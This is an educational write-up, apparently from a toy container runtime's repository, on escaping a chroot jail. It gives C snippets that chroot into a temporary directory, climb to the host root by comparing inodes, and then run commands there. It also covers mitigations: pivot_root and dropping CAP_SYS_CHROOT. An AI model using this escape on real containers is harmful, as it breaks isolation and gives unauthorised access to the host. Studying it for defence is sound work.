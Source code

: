 # Chroot Jailbreak

Drofune uses chroot(2) to hide the host's file system from the container, but this can be jailbreaked according to known specifications.

According to man page of chroot(2):

> This call does not change the current working directory, so that after the call '.' can be outside the tree rooted at '/'.  In particular, the superuser can escape from a "chroot jail" by doing: mkdir foo; chroot foo; cd ..

## How does the exploit work?

Start a new container and invoking a shell. Then just run the exploit.

// Gif

First, create a temporary directory and chroot to it.

```c
char template[] = "chroot-jailbreak-XXXXXX";
char *dir = mkdtemp(template);
chroot(dir);
```

The important thing here is that the current directory is above the new chrooted root. Since chroot(2) is not nested, the first container's root disappears, and there is only the host's root directory after that.

Next, it continues to climb above the directory until the parent directory is not changed (i.e. it reaches the host's root).

```c
ino_t ino = 0;
while (1) {
  struct stat st;
  stat(".", &st)

  if (st.st_ino == ino) break;
  ino = st.st_ino;
  printf("Move to parent dir. current inode: %ld\n", st.st_ino);
  chdir("..");
}
```

Finally, chroot to the current directory and make the container root the host root. You have now escaped from the chroot jail.

```c
chroot(".");
printf("Escaped from chroot jail\n");

printf("Run commands in real root...\n");
execv(commands[0], commands);
```

## Mitigations

Starting a new container with `--pivot-root` option allows to mitigate the vulnerability. When this option is given, use pivot_root(2) instead of chroot(2).

// Gif

```c
if (ctx.pivot_root) {
  pivot_rootfs(rd);
} else {
  chrootfs(rd);
}
```

https://github.com/wata727/drofune/blob/1248279794e22d30df5175e08d0e19980954d5a3/run.c#L100-L108

pivot_root(2) moves the host's root to another directory (and that is [unmounted](https://github.com/wata727/drofune/blob/1248279794e22d30df5175e08d0e19980954d5a3/run.c#L270-L275)), so you cannot jailbreak in this way.

It is also good way to drop the `CAP_SYS_CHROOT` capability so that chroot cannot be run inside containers. You can try it with the `--drop-caps` option.

// Gif

```c
prctl(PR_CAPBSET_DROP, CAP_SYS_CHROOT, 0, 0, 0);
```

https://github.com/wata727/drofune/blob/1248279794e22d30df5175e08d0e19980954d5a3/run.c#L110-L116
https://github.com/wata727/drofune/blob/1248279794e22d30df5175e08d0e19980954d5a3/drop_caps.c#L67-L73

In runc and crun, pivot_root(2) is adopted. chroot(2) is not restricted inside containers, but because it uses pivot_root(2), there is no fear of jailbreaking.

## References

- [Escaping a chroot jail/1](https://filippo.io/escaping-a-chroot-jail-slash-1/)
- [chroot されたディレクトリから脱出してみる](http://www.gcd.org/blog/2007/09/132/) (Japanese)
